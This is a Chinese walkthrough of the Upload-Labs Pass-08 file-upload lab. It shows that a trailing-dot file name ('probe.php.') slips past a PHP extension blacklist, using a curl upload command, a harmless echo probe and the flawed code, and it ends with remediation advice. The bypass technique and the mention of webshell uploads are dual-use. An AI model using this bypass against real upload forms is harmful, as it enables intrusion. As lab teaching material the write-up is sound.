


Upload-Labs Pass-08：尾随点号扩展名绕过
Pass-08 继续使用扩展名黑名单，但在比较前会分别清理完整文件名和扩展名两端的空白。若文件名写成 probe.php.，strrchr() 取到的最后一段扩展名只是一个点号 .，不会命中黑名单中的 .php。本文会在本机授权靶场中分别验证过滤绕过、文件落盘、HTTP 可访问和代码执行，避免把一次成功上传直接等同于命令执行。
一、实验信息
| 项目 | 内容 |
|---|---|
| 靶场 | Upload-Labs |
| 关卡 | Pass-08 |
| 漏洞类型 | 扩展名解析与黑名单规范化不一致 |
| 绕过文件名 | probe.php. |
| 工具 | 浏览器、Burp Suite、curl、Linux 文件工具 |
| 运行环境 | WSL 中的 PHP 8.4 内置服务器 |
| 验证结果 | 黑名单绕过并成功落盘；Linux 下可访问源码，未确认 PHP 执行 |
二、功能观察
页面要求上传 WebShell，文件字段名为 upload_file。普通 PHP 文件名会被服务端拒绝，说明前端虽然有 JavaScript 检查，但后端仍依赖扩展名黑名单。
使用 Burp Suite 拦截请求后，将 multipart 文件名修改为 一句话木马.php.，也就是在 .php 后再追加一个英文句点：

filename 以 .php. 结尾；需要在修改后重新点击发送，才能得到当前请求对应的响应。三、截图中的结果需要分开判断
用户提供的第一张图里已经能看到尾随点号，但响应页仍显示“此文件类型不允许上传”；第二张浏览器截图也显示相同失败提示：

请求编辑区里的文件名、当前显示的响应和浏览器页面上的上传结果必须来自同一次请求，才能作为绕过成功的证据。为了得到可复核结论，下面使用只输出固定文本的无副作用探针重新请求同一关卡。探针没有命令执行、文件管理或持久化功能。
四、复现请求
准备一个测试文件 pass08_probe.php：
<?php echo "PASS08_FILTER_BYPASS_OK"; ?>使用 curl 发送 multipart 请求，并通过 filename= 明确保留尾随点号：
curl -sS -i \
-F 'upload_file=@pass08_probe.php;filename=pass08_probe.php.' \
-F 'submit=上传' \
http://127.0.0.1:8081/Pass-08/index.php本次实际请求返回 200 OK，响应 HTML 中出现：
<img src="../upload/pass08_probe.php." width="250px" />$is_upload 只有在 move_uploaded_file() 成功时才会变为真，因此这比单看页面文字更直接地证明文件已经落盘。
五、漏洞定位
Pass-08 的关键逻辑可以概括为：
$deny_ext = array(".php", ".php5", ".phtml", ...);
$file_name = trim($_FILES['upload_file']['name']);
$file_ext = strrchr($file_name, '.');
$file_ext = strtolower($file_ext);
$file_ext = str_ireplace('::$DATA', '', $file_ext);
$file_ext = trim($file_ext);
if (!in_array($file_ext, $deny_ext)) {
$img_path = UPLOAD_PATH.'/'.$file_name;
move_uploaded_file($_FILES['upload_file']['tmp_name'], $img_path);
}对 pass08_probe.php. 的处理过程如下：
| 阶段 | 结果 |
|---|---|
trim($file_name) | 完整文件名不变，仍为 pass08_probe.php. |
strrchr($file_name, '.') | 从最后一个点开始截取，得到 . |
strtolower() 与 trim() | 仍然是 . |
in_array() | . 不在黑名单中，校验放行 |
move_uploaded_file() | 使用原始文件名落盘，得到 pass08_probe.php. |
根因不是点号本身能变成 PHP 扩展名，而是程序用“最后一个点后的内容”做安全判断，却又把“原始完整文件名”交给文件系统保存。判断值与落盘值不一致，过滤就能被尾随点号绕过。
六、落盘与访问验证
在靶场的上传目录中检查实际文件名：
stat --printf='name=%n\nsize=%s\nmode=%A\n' \
/home/ctf/labs/upload-labs/upload/pass08_probe.php.文件存在，权限为普通可读文件。随后请求 URL：
curl -sS -i \
http://127.0.0.1:8081/upload/pass08_probe.php.响应为 200 OK，内容为：
<?php echo "PASS08_FILTER_BYPASS_OK"; ?>这说明文件位于 Web 根目录下并且可以直接访问，但 PHP 内置服务器只把常见的 .php 文件交给 PHP 解释器；尾随点号让扩展名成为 .php.，因此本次返回的是源码。
七、Linux 与 Windows 的差异
| 环境 | 可能行为 | 本次验证 |
|---|---|---|
| Linux / WSL | 尾随点号通常原样保留 | 文件以 .php. 落盘，可读源码，未执行 PHP |
| Windows 文件系统 | 创建路径时可能规范化尾随点号 | 可能变成 .php 并被执行，本次未验证 |
经典 Upload-Labs 常运行在 Windows 环境，因此尾随点号经常被用来同时绕过黑名单并借助文件系统规范化获得可执行后缀。但在 Linux 上不能直接套用这个结论。是否形成 RCE，要以实际上传后的文件名、Web 服务器扩展名映射和响应内容为准。
probe.php. 绕过，文件成功上传到 Web 可访问目录；当前 Linux/WSL 环境没有执行 PHP 代码，RCE 未验证。八、清理测试文件
验证结束后只删除本次创建的探针文件：
rm -- /home/ctf/labs/upload-labs/upload/pass08_probe.php.再次访问该 URL 应返回 404 Not Found。清理时使用完整文件名，避免删除上传目录中的其他内容。
九、修复建议
- 不要使用扩展名黑名单，改为明确的服务端白名单。
- 先规范化文件名，再把用于检查的扩展名和实际落盘扩展名统一；对尾随点号、空格、大小写变化直接拒绝。
- 忽略客户端文件名，由服务端生成随机文件名和固定安全扩展名。
- 同时检查 MIME、文件头和实际内容；图片应重新解码并编码，不能只改请求头。
- 将上传目录移出 Web 根目录，或在 Web 服务器层禁止该目录执行脚本。
十、复盘
Pass-08 的核心是扩展名判断与文件保存规则不一致。点号可以让 strrchr() 得到无意义的扩展名 .，从而通过黑名单；后续能否执行则取决于文件系统是否规范化尾随点号以及 PHP 处理器如何映射扩展名。写报告时必须分别记录“绕过校验”“成功落盘”“HTTP 访问”“代码执行”，这样结论才可复核。